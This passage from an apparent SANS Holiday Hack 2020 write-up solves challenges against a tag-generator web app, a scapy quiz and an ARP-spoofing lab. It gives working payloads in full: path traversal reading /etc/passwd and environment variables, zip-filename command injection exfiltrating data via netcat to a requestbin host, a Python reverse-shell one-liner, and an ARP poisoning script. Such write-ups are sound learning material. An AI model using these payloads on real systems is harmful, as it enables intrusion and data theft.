        const copyUrl = document.querySelector('.copyUrl');
        copyUrl.value = window.location;
      </script>
    </body>
    </html>

I tried several attacks on both these functionalities. For example, I tried
to forcefully send an SVG file via the :code:`/save` endpoint, but it didn't
work. Then I tried a bunch of stuff with the :code:`/share` endpoint, mainly
dealing with the fact that the generated id for the image didn't have the same
format as the one generated with :code:`/upload`.

Anyway, nothing worked, and that's about where I gave up, and asked Holly
Evergreen for help.

The right solution
..................

Holly told me that if I managed to recover the source for the application, it
would be easier to find vulnerabilities. I was like "Yeah, no kidding, Holly!
I already tried to get the source code via ImageMagick." But then she said
that maybe one of the functionalities could be exploited to do so, and that's
when I rememberd the :code:`/image` functionality that had such a strange
behaviour.

It turns out that you can abuse :code:`/image` to download any file:

.. code-block:: http

    GET /image?id=../etc/passwd HTTP/1.1
    Host: tag-generator.kringlecastle.com
    User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:84.0) Gecko/20100101 Firefox/84.0
    Accept: image/webp,*/*
    Accept-Language: fr,fr-FR;q=0.8,en-US;q=0.5,en;q=0.3
    Accept-Encoding: gzip, deflate
    Connection: close
    Referer: https://tag-generator.kringlecastle.com/

.. code-block:: http

    HTTP/1.1 200 OK
    Server: nginx/1.14.2
    Date: Wed, 30 Dec 2020 16:09:36 GMT
    Content-Type: image/jpeg
    Content-Length: 966
    Connection: close
    X-Content-Type-Options: nosniff
    Strict-Transport-Security: max-age=15552000; includeSubDomains
    X-XSS-Protection: 1; mode=block
    X-Robots-Tag: none
    X-Download-Options: noopen
    X-Permitted-Cross-Domain-Policies: none

    root:x:0:0:root:/root:/bin/bash
    daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
    bin:x:2:2:bin:/bin:/usr/sbin/nologin
    sys:x:3:3:sys:/dev:/usr/sbin/nologin
    sync:x:4:65534:sync:/bin:/bin/sync
    games:x:5:60:games:/usr/games:/usr/sbin/nologin
    man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
    lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
    mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
    news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
    uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
    proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
    www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
    backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
    list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
    irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
    gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
    nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
    _apt:x:100:65534::/nonexistent:/usr/sbin/nologin
    app:x:1000:1000:,,,:/home/app:/bin/bash

Anywaaaaaay... Now that we can read any file, we can get the value for the
environment variable :code:`GREETZ`, for example by reading
:code:`/proc/self/environ`:

.. code-block:: http

    GET /image?id=../proc/self/environ HTTP/1.1
    Host: tag-generator.kringlecastle.com
    User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:84.0) Gecko/20100101 Firefox/84.0
    Accept: image/webp,*/*
    Accept-Language: fr,fr-FR;q=0.8,en-US;q=0.5,en;q=0.3
    Accept-Encoding: gzip, deflate
    Connection: close
    Referer: https://tag-generator.kringlecastle.com/

.. code-block:: http

    HTTP/1.1 200 OK
    Server: nginx/1.14.2
    Date: Wed, 30 Dec 2020 16:12:12 GMT
    Content-Type: image/jpeg
    Content-Length: 399
    Connection: close
    X-Content-Type-Options: nosniff
    Strict-Transport-Security: max-age=15552000; includeSubDomains
    X-XSS-Protection: 1; mode=block
    X-Robots-Tag: none
    X-Download-Options: noopen
    X-Permitted-Cross-Domain-Policies: none

    PATH=/usr/local/bundle/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/binHOSTNAME=cbf2810b7573RUBY_MAJOR=2.7RUBY_VERSION=2.7.0RUBY_DOWNLOAD_SHA256=27d350a52a02b53034ca0794efe518667d558f152656c2baaf08f3d0c8b02343GEM_HOME=/usr/local/bundleBUNDLE_SILENCE_ROOT_WARNING=1BUNDLE_APP_CONFIG=/usr/local/bundleAPP_HOME=/appPORT=4141HOST=0.0.0.0GREETZ=JackFrostWasHereHOME=/home/app

We can see that :code:`GREETZ=JackFrostWasHere`. And bam, we don't even have to
read the source code to answer the question!

But let's do it anyway, because it's fun. So, with our vulnerability, we can
read the :code:`/app/lib/app.rb` file. You can download a copy of it `here
</docs/sans-christmas-challenge-2020/app.rb>`__.

First, let's take a look at the vulnerable :code:`/image` endpoint:

.. code-block:: ruby
    :hl_lines: 6 7 8 9 13 16

    get '/image' do
      if !params['id']
        raise 'ID is missing!'
      end

      # Validation is boring! --Jack
      # if params['id'] !~ /^[a-zA-Z0-9._-]+$/
      #   return 400, 'Invalid id! id may contain letters, numbers, period, underscore, and hyphen'
      # end

      content_type 'image/jpeg'

      filename = "#{ FINAL_FOLDER }/#{ params['id'] }"

      if File.exists?(filename)
        return File.read(filename)
      else
        return 404, "Image not found!"
      end
    end

We can see that the file name validation was commented by Jack Frost. So our
:code:`id` parameter is used as is, which allows us to perform path traversal
and read any file we want on the system (readable by the webserver of course).

Now, let's take a look at the :code:`/upload` functionality:

.. code-block:: ruby

    post '/upload' do
      images = []
      images += process_files(params['my_file'].map { |p| p['tempfile'].path })
      images.sort!()
      images.uniq!()

      content_type :json
      images.to_json
    end

The files are uploaded in a temporary folder, and are passed as an argument to
:code:`process_files`. The results are then sorted, duplicates are removed, and
then everything is sent to the user. Let's keep digging, by looking at
:code:`process_files`:

.. code-block:: ruby

    def process_files(files)
      return files.map { |f| process_file(f) }.flatten()
    end

:code:`process_files` just calls :code:`process_file` (singular) for every
file in the list. So let's look at :code:`process_file`:

.. code-block:: ruby
    :hl_lines: 4 7

    def process_file(filename)
      out_files = []

      if filename.downcase.end_with?('zip')
        # Append the list returned by handle_zip
        out_files += handle_zip(filename)
      elsif filename.downcase.end_with?('jpg') || filename.downcase.end_with?('jpeg') || filename.downcase.end_with?('png')
        # Append the name returned by handle_image
        out_files << handle_image(filename)
      else
        raise "Unsupported file type: #{ filename }"
      end

      return out_files
    end

First of all, we see that our website can manage :code:`.zip` files. That's
interesting! I did try to upload ZIP files to the server, but I sent them with
a :code:`.png` extension to fool ImageMagick (oh God).

Second, we can see that the server only accepts files with extensions
:code:`.jpg`, :code:`.jpeg`, or :code:`.png`. That's why our MVG, MSL, or SVG
files were refused by the server.

Now, if the uploaded file is an image, :code:`handle_image` is called:

.. code-block:: ruby
    :hl_lines: 7

    def handle_image(filename)
      out_filename = "#{ SecureRandom.uuid }#{File.extname(filename).downcase}"
      out_path = "#{ FINAL_FOLDER }/#{ out_filename }"

      # Resize and compress in the background
      Thread.new do
        if !system("convert -resize 800x600\\> -quality 75 '#{ filename }' '#{ out_path }'")
          LOGGER.error("Something went wrong with file conversion: #{ filename }")
        else
          LOGGER.debug("File successfully converted: #{ filename }")
        end
      end

      # Return just the filename - we can figure that out later
      return out_filename
    end

The server *does* use :code:`convert` to process the images. And what's this!
It seems that the variable :code:`filename` is used without any sanitization
whatsoever before being used in :code:`system`! Could this mean that we can
execute arbitrary commands on the server? Well, not in this case, because, as
you remember, our uploaded files are put in a temporary folder, under a name
that is not under our control, so we can't put any funky characters to break
the syntax and execute arbitrary commands (that is something I did try during
black box mode).

But what about the ZIP files? They are processed with :code:`handle_zip`:

.. code-block:: ruby
    :hl_lines: 18 19 20 21 33

    def handle_zip(filename)
      LOGGER.debug("Processing #{ filename } as a zip")
      out_files = []

      Zip::File.open(filename) do |zip_file|
        # Handle entries one by one
        zip_file.each do |entry|
          LOGGER.debug("Extracting #{entry.name}")

          if entry.size > MAX_SIZE
            raise 'File too large when extracted'
          end

          if entry.name().end_with?('zip')
            raise 'Nested zip files are not supported!'
          end

          # I wonder what this will do? --Jack
          # if entry.name !~ /^[a-zA-Z0-9._-]+$/
          #   raise 'Invalid filename! Filenames may contain letters, numbers, period, underscore, and hyphen'
          # end

          # We want to extract into TMP_FOLDER
          out_file = "#{ TMP_FOLDER }/#{ entry.name }"

          # Extract to file or directory based on name in the archive
          entry.extract(out_file) {
            # If the file exists, simply overwrite
            true
          }

          # Process it
          out_files << process_file(out_file)
        end
      end

      return out_files
    end

Once again, Jack Frost has disabled the validation of the file names *inside
our ZIP file*. That means that we have full control over the variable
:code:`out_file` before it's sent to :code:`process_file`. *Now* we have a
remote code execution vulnerability!

*NB: we also have the possibility to overwrite any file. My first thought was
to maybe overwrite the* :code:`app.rb` *file with a malicious one where we
could implement a webshell, but I didn't want to accidently screw up the
challenge and leave it unavailable, so I took the safe route.*

So, let's take a look at the syntax of the command we have to break out of:

::

    convert -resize 800x600\> -quality 75 '$our_entry_point' 'blah_blah_we_dont_control_this'

So, we have to escape out of our enclosure of single quotes, and then maybe
comment out the rest of the command. We also have to end our file name with an
allowed extension, such as :code:`.png`, or :code:`process_file` will refuse to
process it. What about our payload? Well, we want to exfiltrate the value of
:code:`GREETZ` so we can maybe do something like using `DNSBin
<http://requestbin.net/dns>`__ to get the value we want.

I first tried using :code:`nslookup`, then :code:`host`, but it didn't work. I
used the file include vulnerability in :code:`/image` to see if the binaries
were on the system, but they didn't seem to be. So then I used the file include
to read :code:`/var/log/dpkg.log`, and I noticed that
:code:`netcat-traditional` was installed:

.. code-block:: http

    GET /image?id=../var/log/dpkg.log HTTP/1.1
    Host: tag-generator.kringlecastle.com
    User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:84.0) Gecko/20100101 Firefox/84.0
    Accept: image/webp,*/*
    Accept-Language: fr,fr-FR;q=0.8,en-US;q=0.5,en;q=0.3
    Accept-Encoding: gzip, deflate
    Connection: close
    Referer: https://tag-generator.kringlecastle.com/

.. code-block:: http

    HTTP/1.1 200 OK
    Server: nginx/1.14.2
    Date: Wed, 30 Dec 2020 12:50:08 GMT
    Content-Type: image/jpeg
    Content-Length: 172239
    Connection: close
    X-Content-Type-Options: nosniff
    Strict-Transport-Security: max-age=15552000; includeSubDomains
    X-XSS-Protection: 1; mode=block
    X-Robots-Tag: none
    X-Download-Options: noopen
    X-Permitted-Cross-Domain-Policies: none

    [snip]
    2020-11-09 19:36:45 configure netcat-traditional:amd64 1.10-41.1 <none>
    2020-11-09 19:36:45 status unpacked netcat-traditional:amd64 1.10-41.1
    2020-11-09 19:36:45 status half-configured netcat-traditional:amd64 1.10-41.1
    2020-11-09 19:36:45 status installed netcat-traditional:amd64 1.10-41.1
    [snip]

So I decided to use :code:`netcat` in my payload. Here's the name of the file:

::

    test' `netcat $GREETZ.e44b0bd64a85d892c995.d.requestbin.net` # .png

It was created with the following command:

.. code-block:: console

    $ touch "test' "'`netcat $GREETZ.e44b0bd64a85d892c995.d.requestbin.net` # .png'

The single quote after :code:`test` will allow us to escape of our syntax.
I then used backticks to execute my payload. Finally, I commented out the rest
of the command with :code:`#`, and ended with :code:`.png` to trick
:code:`process_file`.

Let's put our file in a ZIP and upload it:

.. code-block:: console

    $ zip payload.zip ./test\'\ \`netcat\ \$GREETZ.e44b0bd64a85d892c995.d.requestbin.net\`\ \#\ .png

Thank God for auto-completion. And after our upload:

.. image:: /images/sans-christmas-challenge-2020/tag_generator_dnsbin.png
    :alt: tag_generator_dnsbin.png
    :align: center

Bingo! We get our desired value.

But you know what would be even cooler? Getting a shell on the server. So let's
change our payload to get a reverse shell. You will need a server binding on
a public IP address. I used Python for my payload (after checking that it was
present on the server) but feel free to use anything. Here's my payload:

::

    python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(($PUT_YOUR_IP_HERE,$PUT_YOUR_PORT_HERE));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["\x2fbin\x2fsh","-i"]);'

You'll notice that I had to encode :code:`/bin/sh` as :code:`\x2fbin\x2fsh`.
That's because you can't have forward slash in a file name on Linux.

Now, we can create our file, :code:`zip` it, and upload it:

.. code-block:: console

    $ rm payload.zip
    $ touch "test' "'`python3 -c '"'"'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(($PUT_YOUR_IP_HERE,$PUT_YOUR_PORT_HERE));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["\x2fbin\x2fsh","-i"]);'"'"'` # .png'
    $ zip payload.zip test*
      adding: test' `python3 -c [snip]

And on our reverse shell:

.. code-block:: console

    reverse~$ nc -nlvp <port>
    listening on [any] <port> ...
    connect to [x.x.x.x] from (UNKNOWN) [35.232.236.115] 49528
    /bin/sh: 0: can't access tty; job control turned off
    $ whoami
    app
    $ pwd
    /tmp
    $ date
    Wed Dec 30 16:59:34 UTC 2020
    $ cat /etc/debian_version
    10.3
    $ ip a sh eth0
    167: eth0@if168: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default
        link/ether 02:42:ac:14:00:04 brd ff:ff:ff:ff:ff:ff link-netnsid 0
        inet 172.20.0.4/16 brd 172.20.255.255 scope global eth0
           valid_lft forever preferred_lft forever
    $ echo $GREETZ
    JackFrostWasHere

Ah! It was indeed a Debian Buster.

Objective 9:
~~~~~~~~~~~~

Alabaster Snowball's Cranberry Pi Challenge
-------------------------------------------

.. code-block:: pycon

    ╔════════════════════════════════════════════════════════════════╗
    ║  ___ ___ ___ ___ ___ _  _ _____   ___  _   ___ _  _____ _____  ║
    ║ | _ \ _ \ __/ __| __| \| |_   _| | _ \/_\ / __| |/ / __|_   _| ║
    ║ |  _/   / _|\__ \ _|| .` | | |   |  _/ _ \ (__| ' <| _|  | |   ║
    ║ |_| |_|_\___|___/___|_|\_| |_|   |_|/_/ \_\___|_|\_\___| |_|   ║
    ║                ___                                             ║
    ║               | _ \_ _ ___ _ __ _ __  ___ _ _                  ║
    ║               |  _/ '_/ -_) '_ \ '_ \/ -_) '_|                 ║
    ║               |_| |_| \___| .__/ .__/\___|_|                   ║
    ║                           |_|  |_|                             ║
    ║                (Packets prepared with scapy)                   ║
    ╚════════════════════════════════════════════════════════════════╝
    Type "yes" to begin. yes
    ╔════════════════════════════════════════════════════════════════╗
    ║ HELP MENU:                                                     ║
    ╠════════════════════════════════════════════════════════════════╣
    ║ 'help()' prints the present packet scapy help.                 ║
    ║ 'help_menu()' prints the present packet scapy help.            ║
    ║ 'task.get()' prints the current task to be solved.             ║
    ║ 'task.task()' prints the current task to be solved.            ║
    ║ 'task.help()' prints help on how to complete your task         ║
    ║ 'task.submit(answer)' submit an answer to the current task     ║
    ║ 'task.answered()' print through all successfully answered.     ║
    ╚════════════════════════════════════════════════════════════════╝
    >>> task.get()
    Welcome to the "Present Packet Prepper" interface! The North Pole could use your help preparing present packets for shipment.

So, this kind of looks like Sugarplum Mary's challenge, but instead of having
to show basic understanding of Linux commands, we must show a basic
understanding of `scapy <https://scapy.readthedocs.io/en/latest/>`__, the
famous packet manipulation Python library.

I found the answers in scapy's documentation. I'll detail answers that were not
trivial. Let's go:

.. code-block:: pycon

    Start by running the task.submit() function passing in a string argument of 'start'.
    Type task.help() for help on this question.
    >>> task.submit('start')
    Correct! adding a () to a function or class will execute it. Ex - FunctionExecuted()

    Submit the class object of the scapy module that sends packets at layer 3 of the OSI model.

    >>> task.submit(scapy.sendrecv.send)
    Correct! The "send" scapy class will send a crafted scapy packet out of a network interface.

    Submit the class object of the scapy module that sniffs network packets and returns those packets in a list.

    >>> task.submit(sniff)
    Correct! the "sniff" scapy class will sniff network traffic and return these packets in a list.

    Submit the NUMBER only from the choices below that would successfully send a TCP packet and then return the first sniffed response packet to be stored in a variable named "pkt":
    1. pkt = sr1(IP(dst="127.0.0.1")/TCP(dport=20))
    2. pkt = sniff(IP(dst="127.0.0.1")/TCP(dport=20))
    3. pkt = sendp(IP(dst="127.0.0.1")/TCP(dport=20))

    >>> task.submit(1)
    Correct! sr1 will send a packet, then immediately sniff for a response packet.

    Submit the class object of the scapy module that can read pcap or pcapng files and return a list of packets.

    >>> task.submit(rdpcap)
    Correct! the "rdpcap" scapy class can read pcap files.

    The variable UDP_PACKETS contains a list of UDP packets. Submit the NUMBER only from the choices below that correctly prints a summary of UDP_PACKETS:
    1. UDP_PACKETS.print()
    2. UDP_PACKETS.show()
    3. UDP_PACKETS.list()

    >>> task.submit(2)
    Correct! .show() can be used on lists of packets AND on an individual packet.


    Submit only the first packet found in UDP_PACKETS.

    >>> task.submit(UDP_PACKETS[0])
    Correct! Scapy packet lists work just like regular python lists so packets can be accessed by their position in the list starting at offset 0.

For the following question, I took a convoluted approach, using :code:`getlayer(scapy.layers.inet.TCP)`,
where I could have just done :code:`task.submit(TCP_PACKETS[1][TCP])` (I also
didn't realize that every class had been directly imported):

.. code-block:: pycon

    Submit only the entire TCP layer of the second packet in TCP_PACKETS.

    >>> task.submit(TCP_PACKETS[1].getlayer(scapy.layers.inet.TCP))
    Correct! Most of the major fields like Ether, IP, TCP, UDP, ICMP, DNS, DNSQR, DNSRR, Raw, etc... can be accessed this way. Ex - pkt[IP][TCP]

.. code-block:: pycon

    Change the source IP address of the first packet found in UDP_PACKETS to 127.0.0.1 and then submit this modified packet

    >>> pkt = UDP_PACKETS[0]

    >>> pkt[IP]
    <IP  version=4 ihl=5 tos=0x0 len=60 id=0 flags=DF frag=0 ttl=64 proto=udp chksum=0x6543 src=192.168.170.8 dst=192.168.170.20 |<UDP  sport=32795 dport=domain len=40 chksum=0xaf61 |<DNS  id=30144 qr=0 opcode=QUERY aa=0 tc=0 rd=1 ra=0 z=0 ad=0 cd=0 rcode=ok qdcount=1 ancount=0 nscount=0 arcount=0 qd=<DNSQR  qname='www.elves.rule.' qtype=A qclass=IN |> an=None ns=None ar=None |>>>

    >>> pkt[IP].src = '127.0.0.1'

    >>> task.submit(pkt)
    Correct! You can change ALL scapy packet attributes using this method.

For the following question, I coded a :code:`for` loop displaying the raw
packets contained in :code:`TCP_PACKETS`. We can see that Alabaster is
connecting to an FTP server, and is sending his password with the command
:code:`PASS echo`. Therefore, his password is :code:`echo`.

.. code-block:: pycon

    Submit the password "task.submit('elf_password')" of the user alabaster as found in the packet list TCP_PACKETS.

    >>> for p in TCP_PACKETS:
    ...     try:
    ...         print(p[Raw])
    ...     except:
    ...         continue
    WARNING: Calling str(pkt) on Python 3 makes no sense!
    b'220 North Pole FTP Server\r\n'
    WARNING: Calling str(pkt) on Python 3 makes no sense!
    b'USER alabaster\r'
    WARNING: more Calling str(pkt) on Python 3 makes no sense!
    b'331 Password required for alabaster.\r'
    b'PASS echo\r\n'
    b'230 User alabaster logged in.\r'

    >>> task.submit('echo')
    Correct! Here is some really nice list comprehension that will grab all the raw payloads from tcp packets:
    [pkt[Raw].load for pkt in TCP_PACKETS if Raw in pkt]


.. code-block:: pycon

    The ICMP_PACKETS variable contains a packet list of several icmp echo-request and icmp echo-reply packets. Submit only the ICMP chksum value from the second packet in the ICMP_PACKETS list.

    >>> task.submit(ICMP_PACKETS[1][ICMP].chksum)
    Correct! You can access the ICMP chksum value from the second packet using ICMP_PACKETS[1][ICMP].chksum .


For the following question, only answers 1. and 3. are ICMP
:code:`echo-request`, so answer 2. is out. Then, we can see that answer 1. is
defining an IP address source of :code:`127.0.0.1` in the :code:`Ether`
constructor, which is the data link layer, below the network layer. So this
answer is incorrect. The only good remaining answer is the third one:

.. code-block:: pycon

    Submit the number of the choice below that would correctly create a ICMP echo request packet with a destination IP of 127.0.0.1 stored in the variable named "pkt"
    1. pkt = Ether(src='127.0.0.1')/ICMP(type="echo-request")
    2. pkt = IP(src='127.0.0.1')/ICMP(type="echo-reply")
    3. pkt = IP(dst='127.0.0.1')/ICMP(type="echo-request")

    >>> task.submit(3)
    Correct! Once you assign the packet to a variable named "pkt" you can then use that variable to send or manipulate your created packet.

.. code-block:: pycon

    Create and then submit a UDP packet with a dport of 5000 and a dst IP of 127.127.127.127. (all other packet attributes can be unspecified)

    >>> task.submit(IP(dst='127.127.127.127') / UDP(dport=5000))
    Correct! Your UDP packet creation should look something like this:
    pkt = IP(dst="127.127.127.127")/UDP(dport=5000)
    task.submit(pkt)

For the next question, I used the scapy documentation on `creating DNS requests
<https://scapy.readthedocs.io/en/latest/usage.html?highlight=dnsqr#dns-requests>`__:

.. code-block:: pycon

    Create and then submit a UDP packet with a dport of 53, a dst IP of 127.2.3.4, and is a DNS query with a qname of "elveslove.santa". (all other packet attributes can be unspecified)

    >>> pkt = IP(dst='127.2.3.4') / UDP(dport=53) / DNS(qd=DNSQR(qname='elveslove.santa'))

    >>> task.submit(pkt)
    Correct! Your UDP packet creation should look something like this:
    pkt = IP(dst="127.2.3.4")/UDP(dport=53)/DNS(rd=1,qd=DNSQR(qname="elveslove.santa"))

For the following answer, I first took a look at both packets:

.. code-block:: pycon

    The variable ARP_PACKETS contains an ARP request and response packets. The ARP response (the second packet) has 3 incorrect fields in the ARP layer. Correct the second packet in ARP_PACKETS to be a proper ARP response and then task.submit(ARP_PACKETS) for inspection.

    >>> ARP_PACKETS[0]
    <Ether  dst=ff:ff:ff:ff:ff:ff src=00:16:ce:6e:8b:24 type=ARP |<ARP  hwtype=0x1 ptype=IPv4 hwlen=6 plen=4 op=who-has hwsrc=00:16:ce:6e:8b:24 psrc=192.168.0.114 hwdst=00:00:00:00:00:00 pdst=192.168.0.1 |>>

    >>> ARP_PACKETS[1]
    <Ether  dst=00:16:ce:6e:8b:24 src=00:13:46:0b:22:ba type=ARP |<ARP  hwtype=0x1 ptype=IPv4 hwlen=6 plen=4 op=None hwsrc=ff:ff:ff:ff:ff:ff psrc=192.168.0.1 hwdst=ff:ff:ff:ff:ff:ff pdst=192.168.0.114 |<Padding  load='\xc0\xa8\x00r' |>>>

We can see the three problems in the ARP layer of the second packet:

1. :code:`op` is set to :code:`None`, where it should be set to ARP response.
   By digging in `scapy's documentation <https://scapy.readthedocs.io/en/latest/usage.html#simplistic-arp-monitor>`__,
   we can see that an ARP request (:code:`op=who-has`) means :code:`op=1` and
   an ARP reply (:code:`is-at`) means :code:`op=2`.
2. :code:`hwsrc` is set to the broadcast address, where it should be set to the
   MAC address of the sender, which, from the :code:`Ether` layer, is
   :code:`00:13:46:0b:22:ba`.
3. :code:`hwdst` is also set to the broadcast address, where it should be set
   to the MAC address of the receiver, which, still from the :code:`Ether`
   layer (either of the first or second packet) is :code:`00:16:ce:6e:8b:24`.

Let's fix all these three things:

.. code-block:: pycon

    >>> ARP_PACKETS[1][ARP].op = 2

    >>> ARP_PACKETS[1][ARP].hwsrc = '00:13:46:0b:22:ba'

    >>> ARP_PACKETS[1][ARP].hwdst = '00:16:ce:6e:8b:24'

    >>> task.submit(ARP_PACKETS)
    Great, you prepared all the present packets!

    Congratulations, all pretty present packets properly prepared for processing!

ARP Shenanigans
---------------

I think this challenge is the most fun of the bunch. We're told that Jack Frost
has hijacked a machine with IP address 10.6.6.35, and we're supposed to get
an access back to it. We're given a machine on the same network of our target.

A help file is provided:

::

    # How To Resize and Switch Terminal Panes:

    You can use the key combinations ( Ctrl+B ↑ or ↓ ) to resize the terminals.

    You can use the key combinations ( Ctrl+B o ) to switch terminal panes.

    See tmuxcheatsheet.com for more details

    # To Add An Additional Terminal Pane:

    `/usr/bin/tmux split-window -hb`

    # To exit a terminal pane simply type:

    `exit`

    # To Launch a webserver to serve-up files/folder in a local directory:

    ```
    
    cd /my/directory/with/files

    python3 -m http.server 80

    ```

    # A Sample ARP pcap can be viewed at:

    https://www.cloudshark.org/captures/d97c5b81b057

    # A Sample DNS pcap can be viewed at:

    https://www.cloudshark.org/captures/0320b9b57d35

    # If Reading arp.pcap with tcpdump or tshark be sure to disable name

    # resolution or it will stall when reading:

    ```

    tshark -nnr arp.pcap

    tcpdump -nnr arp.pcap

    ```

*NB: the IP of my machine has changed several times during this challenge, so
you may see discrepancies between the different PCAPs or the results of*
:code:`ip` *commands. However, our IP address is always in 10.6.0.0/24.*

The challenge seems to be network oriented. Let's start with a simple network
capture with :code:`tcpdump`, while we ping the hijacked machine:

In a term:

.. code-block:: console

    guest@e25a4aa6f87a:~/pcaps$ tcpdump -i eth0 -w ping.pcap
    tcpdump: listening on eth0, link-type EN10MB (Ethernet), capture size 262144 bytes

In another:

.. code-block:: console

    guest@e25a4aa6f87a:~$ ping 10.6.6.35
    PING 10.6.6.35 (10.6.6.35) 56(84) bytes of data.
    64 bytes from 10.6.6.35: icmp_seq=1 ttl=64 time=0.128 ms
    64 bytes from 10.6.6.35: icmp_seq=2 ttl=64 time=0.171 ms
    64 bytes from 10.6.6.35: icmp_seq=3 ttl=64 time=0.143 ms

Here's a link to `ping.pcap </docs/sans-christmas-challenge-2020/ping.pcap>`__.
We can see my :code:`ping` request, but that is not what's interesting in this
capture. We can see that our hijacked machine, 10.6.6.35, keeps sending ARP
requests for an IP address 10.6.6.53. We can guess that if it keeps sending
these requests, it's because the machine behind 10.6.6.53 is not responding.

.. image:: /images/sans-christmas-challenge-2020/arp_shenanigans_arp_requests.png
    :alt: arp_shenanigans_arp_requests.png
    :align: center

This is the perfect set-up to perform an ARP poisoning attack: we can respond
to these requests to pretend that *we* are the machine between 10.6.6.53. You
can read more about ARP poisoning on `Wikipedia <https://fr.wikipedia.org/wiki/ARP_poisoning>`__.

Luckily for us, our machine has a skeleton of a Python script used to sniff
ARP requests. Here's a link to `arp_resp.py </docs/sans-christmas-challenge-2020/arp_resp.py>`__.

We can see that we have to complete the different portions of the file. Let's
start by something simple. For now, our MAC address is randomly generated:
let's get the true MAC address of our :code:`eth0` interface:

.. code-block:: python

    macaddr = get_if_hwaddr('eth0')

We must then complete different ARP fields in our response packet. Luckily,
we're provided with a PCAP with a valid ARP exchange. Here's a link to
`arp.pcap </docs/sans-christmas-challenge-2020/arp.pcap>`__.

You can open it in Wireshark, but since we've had fun with scapy in the
previous task, let's use it:

.. code-block:: pycon

    >>> arp_packets = rdpcap('./pcap/arp.pcap')
    >>> arp_response = arp_packets[1] # the response is the second packet
    >>> arp_response.op
    2
    >>> arp_response.plen
    4
    >>> arp_response.hwlen
    6
    >>> arp_response.ptype
    2048
    >>> arp_response.hwtype
    1

We can now edit our script:

.. code-block:: python

    arp_response.op = 2
    arp_response.plen = 4
    arp_response.hwlen = 6
    arp_response.ptype = 2048
    arp_response.hwtype = 1

Now, onto the actual poisoning. We must find:

- The MAC address of the machine who sent the request
- The IP address of the machine who sent the request
- The IP address they were trying to convert

We can find all these informations from the ARP request. Let's study the one
in our example :code:`arp.pcap`:

.. code-block:: pycon
    :hl_lines: 13 14 16

    >>> arp_request = arp_packets[0]
    >>> arp_request.show()
    ###[ Ethernet ]###
      dst       = ff:ff:ff:ff:ff:ff
      src       = cc:01:10:dc:00:00
      type      = ARP
    ###[ ARP ]###
         hwtype    = 0x1
         ptype     = IPv4
         hwlen     = 6
         plen      = 4
         op        = who-has
         hwsrc     = cc:01:10:dc:00:00
         psrc      = 10.10.10.2
         hwdst     = 00:00:00:00:00:00
         pdst      = 10.10.10.1
    ###[ Padding ]###
            load      = '\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00'

We can find:

- The MAC address who sent the request in :code:`arp_request.hwsrc`
- The IP address who sent the request in :code:`arp_request.psrc`
- The IP address they were trying to convert in :code:`arp_request.pdst`

We can now finally complete our Python script:

.. code-block:: python

    #!/usr/bin/python3
    from scapy.all import *
    import netifaces as ni
    import uuid

    # Our eth0 ip
    ipaddr = ni.ifaddresses('eth0')[ni.AF_INET][0]['addr']
    # Our eth0 mac address
    macaddr = get_if_hwaddr('eth0')

    def handle_arp_packets(packet):
        # if arp request, then we need to fill this out to send back our mac as the response
        if ARP in packet and packet[ARP].op == 1:
            ether_resp = Ether(dst=packet.hwsrc, type=0x806, src=macaddr)

            arp_response = ARP(pdst=packet.psrc)
            arp_response.op = 2
            arp_response.plen = 4
            arp_response.hwlen = 6
            arp_response.ptype = 2048
            arp_response.hwtype = 1

            arp_response.hwsrc = macaddr
            arp_response.psrc = packet.pdst
            arp_response.hwdst = packet.hwsrc
            arp_response.pdst = packet.psrc

            response = ether_resp/arp_response

            sendp(response, iface='eth0')

    def main():
        # We only want arp requests
        berkeley_packet_filter = "(arp[6:2] = 1)"
        # sniffing for one packet that will be sent to a function, while storing none
        sniff(filter=berkeley_packet_filter, prn=handle_arp_packets, store=0, count=1)

    if __name__ == "__main__":
        main()

Now, we can launch our script, and perform another network capture:

In a term:

.. code-block:: console

    guest@e25a4aa6f87a:~/pcaps$ tcpdump -i eth0 -w arp_poisoning.pcap
    tcpdump: listening on eth0, link-type EN10MB (Ethernet), capture size 262144 bytes

In another:

.. code-block:: console

    guest@e25a4aa6f87a:~/scripts$ ./arp_resp.py
    .
    Sent 1 packets.

Here's a link to `arp_poisoning.pcap </docs/sans-christmas-challenge-2020/arp_poisoning.pcap>`__.

.. image:: /images/sans-christmas-challenge-2020/arp_shenanigans_arp_poisoning.png
    :alt: arp_shenanigans_arp_poisoning.png
    :align: center

We can see that our ARP poisoning attack worked! Our hijacked machine received
our response, and then sent a DNS request to us, to resolve ftp.osuosl.org.
Now, that's interesting, cause we can pretend to be a DNS server, and send an
invalid DNS response, stating that ftp.osuosl.org resolves to *our own* IP
address. That way, the hijacked machine will keep trying to connect to our own
machine, and we can study what it wants.

Lucily for us, we're (again) given the skeleton to a Python script that can
sniff DNS requests and send a response. Here's a link to `dns_resp.py </docs/sans-christmas-challenge-2020/dns_resp.py>`__.

As before, we must complete the different parts of the script. First things
first, we must properly specify our MAC address, and the IP we spoofed:

